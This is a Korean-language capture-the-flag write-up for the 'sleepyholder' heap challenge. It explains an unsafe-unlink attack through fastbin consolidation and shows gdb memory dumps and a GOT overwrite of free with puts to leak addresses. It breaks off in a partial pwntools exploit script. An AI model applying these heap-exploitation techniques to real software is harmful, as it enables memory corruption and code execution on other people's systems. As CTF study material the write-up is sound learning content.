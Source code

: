 이렇게 chunk pointer들이 free되도 남아있다. 또 fast chunk를 할당받을 때 small chunk의 prev_size 까지 쓰게 해주는게 보인다. 게다가 형태마저 hitcon training에서 봤던 unsafe unlink 하기 딱 좋은 형태다. unlink를 하기 위해서 fastbin consolidate가 필요한듯

```c
gdb-peda$ x/32gx 0x1c86650
0x1c86650:	0x0000000000000000	0x0000000000000031
0x1c86660:	0x0000000000000000	0x00000000000209a1
0x1c86670:	0x00000000006020b8	0x00000000006020c0
0x1c86680:	0x0000000000000020	0x0000000000000fb0
0x1c86690:	0x0000000000000061	0x0000000000000000

gdb-peda$ x/32gx 0x6020b0
0x6020b0 <stdout>:	0x00007fe2188cd620	0x0000000000000000
0x6020c0:	0x0000000001c86690	0x00007fe218a83010
0x6020d0:	0x00000000006020b8	0x0000000100000000
0x6020e0:	0x0000000000000001	0x0000000000000000
```

unlink를 해주면 이렇게 이쁘게 박힌다. 그 다음 small secret pointer에 atoi_got를 넣고 거기에 puts_plt를 넣고 메뉴 선택할 때 puts_got를 넣으려고 했는데 계속 안돼서 삽질하다보니 이게 atoi 인자로 4바이트 밖에 쓸 수가 없어서 그랬다… (갱장한 삽질이었음)

```c
gdb-peda$ x/32gx 0x6020b0
0x6020b0 <stdout>:	0x00007f69c2930620	0x0000000000000000
0x6020c0:	0x0000000000602080	0x0000000000602080
0x6020d0:	0x0000000000602018	0x0000000100000000
0x6020e0:	0x0000000000000001	0x0000000000000000

gdb-peda$ x/gx 0x0000000000602018
0x602018 <free@got.plt>:	0x0000000000400760
```

1 pointer에 free_got를 넣고 free_got에 puts_plt를 넣고 2 pointer를 free 시키면 릭 가능!

```python
from pwn import *

t = process('./sleepyholder')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def save(a,b):
	r("3. Renew secret\n")
	s("1")
	r("2. Big secret\n")
	s(str(a))
	r(": \n")
	t.send(str(b))

def de(a):
	r("3. Renew secret\n")
	s("2")
	r("2. Big secret\n")
	s(str(a))

def renew(a,b):
	r("3. Renew secret\n")
	s("3")
	r("2. Big secret\n")
	s(str(a))
	r(": \n")
	t.send(str(b))

atoi_got = 0x602080
puts_plt = 0x0000000000400760
puts_got = 0x602020
```